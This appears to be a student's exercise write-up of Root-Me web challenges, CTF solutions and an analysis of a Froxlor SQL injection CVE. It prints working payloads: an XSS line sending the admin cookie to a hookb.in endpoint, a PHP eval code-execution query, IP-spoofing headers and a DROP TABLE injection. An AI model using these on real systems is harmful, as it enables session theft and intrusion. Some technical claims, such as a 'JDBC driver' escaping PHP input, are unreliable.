

# Exercise sheet 1
## Web application vulnerabilities (without time constraints)

### Solve 2 of the challenges in the category Challenges => Web-Client that have a name starting with "XSS" and document for each challenge what you did, what tools you used, what worked and what did not work.

#### XSS - Stored 1
This task was about stealing the administrator's session cookie, which was the flag of the task. The website that was to be exploited had two text fields for a title and a message to be sent.  The following image shows the message with the title "test" and the message "hello":


If the message was read by the administrator, the user will be informed about it at the bottom of the page:


First, I tried to see if an XSS attack was possible by inserting some JavaScript code into the text field of the message, which was actually executed.


Then I tried to print my cookie, thinking that if the administrator checks my message, it will show his cookie too.


However, I was wrong because the admin cookie would only be visible to the administrator and not to myself. After some research, I found that I should set up some sort of server and then send that cookie to the server. This would send my cookie when I submit the message, but also send the administrator's cookie when they check my message. To that end, I used https://ngrok.com/ to forward requests to my localhost on port 5555.


After opening the server, I sent a message on the website with a code that sends the cookie to my server:


After some waiting time, the admin cookie then showed up on my server:


```c
ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```

#### XSS - Reflected
This challenge was also about getting the administrator cookie. After opening the website and clicking on everything I could find, I found that the "Contact Us" menu was the only place I could enter anything. The first thing I tried to do was paste in some simple JavaScript code, but that didn't really work.

After further analysis, I found that a "p" parameter was used to navigate the site. For example, to get to the "Contact Us" page, this parameter was set to "contact":

```c
http://challenge01.root-me.org/web-client/ch26/?p=contact
```

Next, I tried setting this parameter to a random value and seeing what happened:

```c
http://challenge01.root-me.org/web-client/ch26/?p=test
```

This led to this unprecedented page:


This page displayed a link with the parameter I entered, along with a button to report this to the administrator.

The next step was to somehow get the admin cookie. The challenge description said the following, "Be careful, this administrator is aware of info security and he doesn't click on strange links that he could receive." This would mean that the administrator would not click on the link with the parameter I inserted, and I would have to find another way to execute code other than the click.

Next, I noticed that the page embeds the parameter I entered in a link and sends it to the administrator when I click "Report to Administrator". When I include "test" as a parameter (?p=test), the parameter is embedded in the link tag as follows:

```c
<a href="?p=test" >test</a>
```

After some testing, I found that I could use the single quote ' to change the link tag to have an 'onmousemove' attribute. With the following I was able to execute some code when the mouse is on the link:

```c
http://challenge01.root-me.org/web-client/ch26/?p=test'onmousemove='alert(1)
```


Next, I used Hookbin (https://hookbin.com/) to create an endpoint and intercept some requests. Then I had to figure out how to use "onmousemove" to send the admin cookie to the endpoint. After some research I found this:

```c
test'onmouseover='document.location=%22https://hookb.in/3One9l7Djnu7yakkymWL?%22.concat(document.cookie)
```

Then I had to wait for the admin to check the link, and after some time the flag arrived:


```c
r3fL3ct3D_XsS_fTw
```

### Solve 5 of the challenges in the category Challenges => Web-Server that have a name starting with "HTTP" and document for each challenge what you did, what tools you used, what worked and what did not work.

#### HTML - Source code
This challenge opened a website with a password text field and a login button. The first thing I tried was to inspect the source code of the page, and I saw this as a comment:


So the flag was:
```c
nZ^&@q5&sjJHev0
```

#### HTTP - Open redirect
The next challenge was to create a redirect to a domain other than the one displayed on the website, namely Facebook, Twitter and Slack.

The first thing I did was click on all the links and see what happened. I was redirected to the Facebook, Twitter and Slack pages. Next, I opened the source code of the page and found that the redirect was just a POST request with a parameter called "url". I tried entering my own domain, but nothing happened:

```c
https://challenge01.root-me.org/web-serveur/ch52/?url=https://wikipedia.com
```

The next thing I noticed was that there was something special about the links in the source code:

```c
/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134"
```

The POST request also has a second parameter called "h". I copied it and searched for it in Google. Apparently it is the md5 hash value of "https://facebook.com". Next, I used an online converter to convert my Wikipedia link to an md5 hash value, and tried again with that:

```c
http://challenge01.root-me.org/web-serveur/ch52/?url=https://wikipedia.com&h=be448605a63c920583bb6400113d1eba
```

And it worked:

```c
Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
```

#### HTTP - Directory indexing
In this task, a blank page was opened. First I opened the source code of the page. There I found the following comment:

```c
<!-- include("admin/pass.html") -->
```

I then tried to call 'pass.html' by typing:

```c
http://challenge01.root-me.org/web-serveur/ch4/admin/pass.html
```

Obviously, this was a trap to rick roll the intruder:


Next, I tried checking the "admin" folder, which also contained "pass.html", for other files:

```c
http://challenge01.root-me.org/web-serveur/ch4/admin/
```


I also found another directory called "backup" which contained a file called "admin.txt". There I could find the flag "LINUX".


#### HTTP - User-agent
Challenge opened a page with the text "Wrong user-agent: you are not the "admin" browser!". I googled "user-agent" and found out that it is a request header that servers use to identify browsers.


After some research on how to send a request header, I created this "curl" command to send a request to the challenge site with the user agent set to "admin":



As a result, I received a new page with the flag:

```c
rr$Li9%L34qd1AAe27
```

#### HTTP - IP restriction bypass
This challenge showed a web page with a text box for login and password. It also told me that my IP address does not belong to the LAN:


The name of the task was literally "IP restriction bypass", so I googled that. I found that I could use curl again and send a modified request header to the website. By changing 'X-Forwarded-For' you could spoof your IP address. The challenge description also mentioned that connections using private addresses do not need to be authenticated. This prompted me to search for private IP addresses that I could use to spoof my own IP address. In the end, I came up with this curl command:

```c
curl --header "X-Forwarded-For: 10.0.0.0" http://challenge01.root-me.org/web-serveur/ch68/
```

By running this in the terminal, I managed to get the flag:


## Web application vulnerabilities (with time constraints)
### Pick a Capture the flag (CTF) event from ctftime.org
I participated in two different online CTF events, namely "Capture The Flag 2021" organized by the University of Applied Sciences of Eastern Switzerland and "Secureburg's CTF" organized by the Swedish company SecureBug AB.

"Capture The Flag 2021" took place on 11 Nov 21 and consisted of three rounds, each lasting two hours. The challenge categories were social engineering, web security, network security, crypto, penetration testing and reverse engineering.

"Securebug's CTF" began on November 26 and ended on November 28. The categories were web, cryptography, forensics, miscellaneous, exploitation, reverse engineering and OSINT.

### Participate in a CTF event, solve 2 of the challenges in the “web” category and 1 challenge in another category of your choice.

"Capture The Flag 2021" was my first CTF event that I participated in. During this event, I spent most of my time focusing on the challenges from the web categories, but I was unable to solve any of them. Although there were no writeups on these challenges, I was still able to learn quite a bit and learn about the tools and methods used to solve web challenges. Also, I was only able to solve one task from the exploitation category during the event.

During Securebug's CTF, I solved two web challenges. One actually during the event and the other during the writing phase. I almost solved the latter in the allotted time, but my time just ran out at the end.

### Document for each challenge what you did, what tools you used, what worked and what did not work.

#### It's all Relative
The challenge from the "exploitation" category was called "It's all Relative" and you could connect to a provided server. The goal was to gain access to a file called "flag.txt" where the flag was stored. The problem was that this file was located in the root directory and therefore could not be accessed without the necessary permissions. The challenge also provided an executable file that could output the flag to the console if the user had the necessary rights. This "right" to read the flag was stored in a file called "flag-reader.txt", which had the content "no". To be able to read the flag, the content of this file should be set to "true". It is important to know that this file could also not be modified, but only read.

This executable had the problem that it called "flag-reader.txt" by a relative path and not by an absolute path. So I came up with the solution of creating another file called "flag-reader.txt" with the contents "true" in a location that I had access to, and then running the executable from that location.

```c
./../../bin/flag-reader
```

This would cause the executable to use the file I created rather than the file in the bin folder. By executing this file, I got the flag:

```c
HLCR{1t's_411_r314t1ve...}
```

### Tricks 1

This challenge comes from the Securebug CTF from the Web category. To solve it, you had to apply some PHP tricks on a website. When the website is opened, the following code is displayed:


To get the flag, you need to find two strings (a and b) that are not the same, but both have the same sha1 and md5 value. At first I tried to find a so-called collision where two different strings have the same sha1 value, but I quickly realized that it would be very difficult to find a collision that has both the same sha1 and the same md5 value.

After some research (especially https://medium.com/@mena.meseha/php-functions-security-issues-755ce4c8643c) I found out that the sha1 and md5 method returns NULL if it can't handle an argument. The trick was to pass two arrays to trick the code. So I made a POST request using Postman with the following payload:

```c
https://ch5.sbug.se/?a[]=a&b[]=b
```

This returned me the flag:

```c
SBCTF{g07_2_w17h_0n3_SH07?}
```

### Phpbaby

This challenge also comes from the Securebug CTF from the Web category. Again, PHP code had to be exploited to get the flag. When the contest website was opened, an animated screen with ones and zeros was displayed:


I looked at the HTML code of the website, but I could not find anything. Then I tried to find some files that I might have access to. Apparently the file "robots.txt" was on the server (https://ch3.sbug.se/robots.txt) and could be read. Its content was the following:

```c
user-agent: *
disallow: /Source_Code_Backup
```

This led me to the endpoint "/Source_Code_Backup" which was an empty page. I examined the HTML code behind this page and was able to find some interesting things. I found the following as a comment:

```c
<!--
// Source Code Backup:
	$SBCTF=@(string)$_GET['SBCTF'];
	filter($boycott, $SBCTF);
	eval('$SBCTF="'.addslashes($SBCTF).'";');
-->
```

This code snippet actually ran on the server and showed me that the page does indeed accept "SBCTF" as a parameter. It also showed me that the code uses "eval", which can be easily exploited if not used correctly. Fortunately for me, this was the case.

After some research, I found this article (https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php) describing how to exploit the "eval" method to execute arbitrary code. To see if this really works, I made a POST request with this payload:

```c
https://ch3.sbug.se/?SBCTF=var_dump(${eval($_GET[1])}=123)&1=phpinfo();
````

This actually worked and showed me some server information. Next I searched the directories and discovered the flag.

```c
https://ch3.sbug.se/?SBCTF=var_dump(${eval($_GET[1])}=123)&1=phpinfo();
```


### Prove your participation in the CTF event with a screenshot of the scoreboard.

"Capture The Flag 2021":


Securebug's CTF:


## Known real-world software vulnerabilities

###  Browse vulnerability reports on cvedetails.com or nvd.nist.gov. Choose one of the vulnerabilities for an open source product for which you can retrieve the source code.
I have found a security vulnerability for the open source product Froxlor:
https://nvd.nist.gov/vuln/detail/CVE-2021-42325

### Show the vulnerability in the source code version before detection of the vulnerability.
https://github.com/Froxlor/Froxlor/commit/eb592340b022298f62a0a3e8450dbfbe29585782

The code before the discovery of the vulnerability:
```php
public function createDatabase($dbname = null)
{
	Database::query("CREATE DATABASE `" . $dbname . "`");
}
```

### Show how the vulnerability was fixed/removed based on a source code version released after the vulnerability was discovered.
The corrected code after the discovery of the vulnerability:
```php
public function createDatabase($dbname = null)
{
	$stmt = Database::prepare("CREATE DATABASE :dbname");
	Database::pexecute($stmt, [
		'dbname' => $dbname
	]);
}
```

This vulnerability was fixed with security release 0.10.30 - Possible SQL injection with new Custom Database Name feature.

### For the vulnerability, name the CVE-ID, point out the type of vulnerability (preferably by an appropriate CWE-ID), and document the source code lines that are affected. Describe what an attacker would have had to do to exploit the vulnerability. Describe how the fix works.
CVE-2021-42325 is the CVE-ID of the vulnerability.

The type of the vulnerability is Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') with CWE-ID [CWE-89](http://cwe.mitre.org/data/definitions/89.html)

One file that was affected by this change was "Mysqls.php" (https://github.com/Froxlor/Froxlor/blob/master/lib/Froxlor/Api/Commands/Mysqls.php). Lines 89, 90, 91, 92 and 93 were affected.

What an attack could have done to exploit this, is the following:

```php
$evil = "test'; DROP TABLE students; --";
createDatabase($str);
```

This would result in the following SQL command:

```sql
CREATE DATABASE 'test'; DROP TABLE students; --'
```

The problem used to be that you could add your own SQL commands with the dbname parameter. By using the prepare statements this is no longer possible, because the dbname parameter is automatically escaped by the JDBC driver. Also, prepared statements first send the program to the database (the CREATE DATABASE part) and then the data (which an attacker could inject).

### What can developers learn from the chosen vulnerability? Could that type of vulnerability have been avoided/found earlier? If so, how? If not, why is it hard?
From SQL injection, developers can learn to never trust user input and to always question it. Especially if a developer himself cannot think of a case where this could be exploited, he should not assume that no one else could find a problem in it.
Also, I think this vulnerability shows how important it is to write code that doesn't change and remains intact across different user inputs.

In my opinion, this vulnerability could definitely have been avoided by consulting the Internet for best practices in SQL statement creation.
